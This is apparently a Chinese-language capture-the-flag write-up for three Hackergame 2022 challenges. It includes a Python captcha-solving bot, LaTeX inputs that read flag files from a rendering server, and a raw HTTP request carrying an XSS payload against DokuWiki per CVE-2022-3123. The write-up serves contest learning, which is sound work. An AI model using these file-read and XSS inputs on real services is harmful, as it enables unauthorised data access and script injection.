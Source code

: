 ## XCaptcha
题目源代码在[这里](https://github.com/USTC-Hackergame/hackergame2022-writeups/tree/master/official/Xcaptcha/src)。  
出题人给了一个网页，需要你通过在一秒内算出三个大数加法并提交，来证明你是机器人。

写个自动提交的爬虫吧，网页结构不是很复杂，所以直接用正则即可，不需要判断 DOM.

```python
sess = requests.Session()
sess.cookies.set("session", "<some_jwt>")
response = sess.request("GET", url)

res = re.findall(r"(\d+)\+(\d+)", response.text)
result = []
for x, y in res:
    result.append(int(x)+int(y))
for k, v in response.cookies.items():
    sess.cookies.set(k, v)

response = sess.request("POST", url, data={
    "captcha1": result[0],
    "captcha2": result[1],
    "captcha3": result[2],
})
print(response.text)
```

## LaTeX 机器人
渲染 LaTeX 图片的脚本在[这里](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/official/LaTeX%20%E6%9C%BA%E5%99%A8%E4%BA%BA/src/latexbot-backend.zip)。

靠 Google 只会做一半：`\input{/flag1}` 拿到第一个 flag.  
由于构建脚本里关掉了 `shell escape`，所以其它基于命令执行的方案都会失败，后面卡了很久。

某天晚上，浩哥哥发来了[一个页面](https://tex.stackexchange.com/questions/630044/how-can-i-input-multiple-txt-files-with-special-characters-into-my-main-tex-file)，讲了如何去在文章里引用包含特殊符号的内容，而里面提到了 `\catcode` 命令。  
`\catcode` 的常见用法是将某个字符定义成某种宏。而我们通过它就可以将特殊字符视为一个 [Catcode 12](https://www-sop.inria.fr/marelle/tralics/doc-symbols.html#catcode12) 的字符，而这类字符是无法参与指令控制的。

最后输入 `{ \catcode``#=12  \catcode\``_=12  \input{/flag2} }` 得到 flag：`flag{latex_bec_0_m##es_co__#ol_2a1fd66cfe}`.

## Flag 的痕迹
题目写明了服务的版本：
> （题目 Dokuwiki 版本基于 2022-07-31a "Igor"）

这大概已经算是明示了？去搜一发 CVE，看到了 [CVE-2022-3123](https://nvd.nist.gov/vuln/detail/CVE-2022-3123#vulnCurrentDescriptionTitle)，通过构造 XSS 即可打开历史记录页面。

构造请求：
```
POST /doku.php?id=start HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Referer: http://202.38.93.111:15004/doku.php?id=start
Cookie: DokuWiki=57vk0n23v486p8vdjqc15oigpu; DOKU_PREFS=show_changes%23both%23difftype%23sidebyside
Content-Length: 139
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Host: 202.38.93.111:15004
Connection: Keep-alive

difftype=sidebyside'"()%26%25<zzz><ScRiPt%20>alert("1")</ScRiPt>&do=diff&do[diff]=1&id=start&rev2[0]=1&rev2[1]=0&sectok=1
```